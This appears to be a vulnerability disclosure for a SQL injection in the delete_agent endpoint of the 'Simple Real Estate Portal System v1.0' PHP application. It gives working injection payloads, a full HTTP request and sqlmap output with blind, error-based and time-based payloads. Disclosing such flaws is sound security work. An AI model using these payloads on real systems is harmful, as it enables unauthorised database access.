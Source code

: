 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

vendors: https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

Vulnerability file: /reps/classes/Users.php?f=delete_agent

Vulnerability location: /reps/classes/Users.php?f=delete_agent , id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point 

```
POST /reps/classes/Users.php?f=delete_agent HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/reps/admin/?page=agents
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160312885-c9144faa-9257-448e-b70f-bbfd72ef5f24.png)


```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' RLIKE (SELECT (CASE WHEN (7043=7043) THEN 1 ELSE 0x28 END))-- nmnX

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 8027 FROM(SELECT COUNT(*),CONCAT(0x7171717871,(SELECT (ELT(8027=8027,1))),0x716a6b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- WTeh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9988 FROM (SELECT(SLEEP(5)))oDDv)-- XFnj
---
```
![image](https://user-images.githubusercontent.com/54017627/160312846-0225bec5-b20d-4c09-a0c2-fa234ecff160.png)


